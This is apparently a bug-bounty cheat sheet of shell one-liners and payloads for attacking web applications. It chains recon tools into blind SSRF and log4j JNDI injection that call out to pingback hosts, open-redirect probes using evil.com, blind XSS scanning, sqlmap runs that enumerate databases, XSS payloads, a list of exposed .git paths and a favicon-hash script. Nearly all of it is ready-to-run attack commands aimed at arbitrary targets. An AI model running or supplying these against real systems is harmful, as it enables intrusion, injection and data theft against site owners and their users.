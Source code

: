 # Blind SSRF Oneliner(X-Forwarded-Host):

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Blind SSRF Oneliner:

`cat wayback.txt|gf ssrf |qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

`cat wayback.txt|gf ssrf |grep -a -i \=http|qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`

# SQLI Oneliner With Sqlmap:
```
1 subfinder -d target.com|tee -a domains.txt
2 cat domains.txt|httpx|tee -a urls-alive.txt
3 cat urls-alive.txt|waybackurls|tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch
```

# CVE-2021-4428 log4j Oneliner With User-Agent Payload:

`while read url; do log4=$(curl -s -L $url -H User-Agent: "$\{jndi:ldap://your-pingback-client-url.com}");echo -e "$url -> User-Agent: Fired";done`

# Scan Ports and Vulnerabilities CVE using nrich

```
https://gitlab.com/shodan-public/nrich
https://github.com/projectdiscovery/dnsx
```

![nrich](https://user-images.githubusercontent.com/58636452/157049702-6afd8a8a-5858-42d7-9ef4-3d94b650d69c.jpg)

# Open Redirect:
```
https://target[.]com///google[.]com/  --> 404 Not found
https://target[.]com///google[.]com/?qwerty  --> Redirects to google[.]com
```
# XSS Scanner

```
echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```
# Dir-enum-list:
```
/.git
/.git-rewrite
/.git/HEAD
/.git/index
/.git/logs
/.gitattributes
/.gitconfig
/.gitkeep
/.gitmodules
/.gitreview
/.svn/entries
/.svnignore
```
# Favicon Hash Finder python script:
```
import mmh3,requests,codecs,sys,urllib3

urllib3.disable_warnings()

if len(sys.argv) == 1:
	print("[!]Please provide a valid URL, If you are facing some issue please add http:// or https:// befor the url")
	print("[+]Example: python3 Hash.py https://www.google.com/favicon.ico")
	exit()

response =requests.get(sys.argv[1], verify=False)
favicon = codecs.encode(response.content,'base64')
hash= mmh3.hash(favicon)
print('[+]shodan search query: http.favicon.hash:'+str(hash))

```
# XSS Payloads:

```
xss%27;eval.call`${%27alert\x28window.origin\x29%27}`;//
```
